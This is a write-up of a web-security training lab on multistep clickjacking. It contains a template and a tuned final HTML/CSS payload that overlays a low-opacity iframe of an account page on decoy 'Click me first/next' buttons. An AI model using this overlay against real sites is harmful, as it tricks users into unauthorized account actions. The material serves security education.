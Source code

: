 # Lab description
Lab that tries to cover the multistep clickjacking attacks.
This lab has a confirmation dialog that makes the need of a multi-step attack, as the user **does not only has to press the first button, but a second one confirming the operation.**

# Writeup
Here is a template HTML that creates a div that, when is clicked, triggers a second div, one for each step of the attack. Both divs are dummy and they are replacing the two invisible operations that the user is doing in the invisible iframe.
Remember that both divs need to be in place in both specific situations, so the attack gets harder the more steps it needs, as more placement is needed.

Here is the HTML:
```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  .firstClick,
  .secondClick {
    position: absolute;
    top: $top_value1;
    left: $side_value1;
    z-index: 1;
  }

  .secondClick {
    top: $top_value2;
    left: $side_value2;
  }
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

We can see the two divs, and the same iframe which will be invisible.

Well, let's replace the pixel values of the two divs, and test both steps.
Step 1 (typical steps from other clickjacking labs):
![](imgs/multistep_clickjacking_attack-3.png)

Step 2 (new step), click the first button and check the placement of the second button:
![](imgs/multistep_clickjacking_attack-4.png)

We now know that both buttons are in place. Just send the final HTML with good placement:
```css
<style>
  iframe {
    position: relative;
    width: 500;
    height: 700;
    opacity: 0.1;
    z-index: 2;
  }

  .firstClick,
  .secondClick {
    position: absolute;
    top: 500;
    left: 50;
    z-index: 1;
  }

  .secondClick {
    top: 285;
    left: 225;
  }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0af200c9048711e881ce11c800b600f2.web-security-academy.net/my-account"></iframe>
```

And woila!
![](imgs/multistep_clickjacking_attack-5.png)
